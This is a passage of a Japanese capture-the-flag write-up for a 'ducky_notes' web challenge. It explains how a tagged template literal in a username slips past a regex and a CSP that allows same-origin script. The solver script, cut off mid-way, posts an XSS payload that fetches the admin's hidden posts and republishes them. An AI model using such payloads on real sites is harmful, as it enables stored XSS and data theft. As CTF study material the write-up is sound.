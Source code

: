 コード差分は以下の通りで、レスポンスヘッダにCSPとX-Frame-Optionsが追加されている。

- 差分

```text
$ diff ducky_notes_3 ducky_notes_4 -r
diff -r ducky_notes_3/src/app.py ducky_notes_4/src/app.py
15a16,20
> @app.after_request
> def add_header(response):
>     response.headers['X-Frame-Options'] = 'SAMEORIGIN'
>     response.headers['Content-Security-Policy'] = "default-src 'self'; object-src 'none';"
>     return response
```

scriptにはselfが指定されているので、エラーログファイルを利用することでXSSはできそう。  
ただし、エラーログファイルの内容は次のようになっているため、工夫しないとスクリプトが正しく実行されない。

```text
"2023-07-28 14:10:17" admin <REDACTED>
<日付> <ユーザ名> <content内容>
```

ここでユーザ名に使える記号が制限されていることを考える。  
再度正規表現（`re.compile('^[A-za-z0-9\.]{2,}$')`）を見ると、`.`と`\`のみ許可されているように見える。  
が、実際には`` ` ``も使用することができる。（なぜかはよくわかっていない。）

```py
>>> USERNAME_REGEX.match("`a")
<re.Match object; span=(0, 2), match='`a'>
```

関数の形式 + テンプレートリテラル（`` `${test}` ``）を使うことで回避できる。  
具体的には以下のような形を目指す。

```text
"2023-07-28 14:10:17" `a ${<スクリプト>}`
```

`` console.log`${1+1}` ``を実行すると`2`がログに出力されるようなイメージ。  
引数の処理が先に実行されるため、エラーとなる前に任意のスクリプトを実行させることができる。

- solver.py

```py
#!/usr/local/bin/python
import datetime
import requests
import time

# TARGET = 'http://challs.tfcctf.com:32673'
TARGET = 'http://localhost:1337'
WAIT_TIME_SEC = 20

user = {'username': '`\..', 'password': 'test'}

def register_user():
  requests.post(f'{TARGET}/api/register', json=user)

def make_error_log():
  session = requests.Session()
  r = session.post(f'{TARGET}/api/login', json=user)
  assert r.status_code == 200

  post = {
    'content': "${fetch('http://localhost:1337/posts/view/admin').then(res => res.text()).then(text => {fetch('http://localhost:1337/api/posts',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({title:'admin',content:text,hidden:false})})})}`",
    'hidden': False
  }
```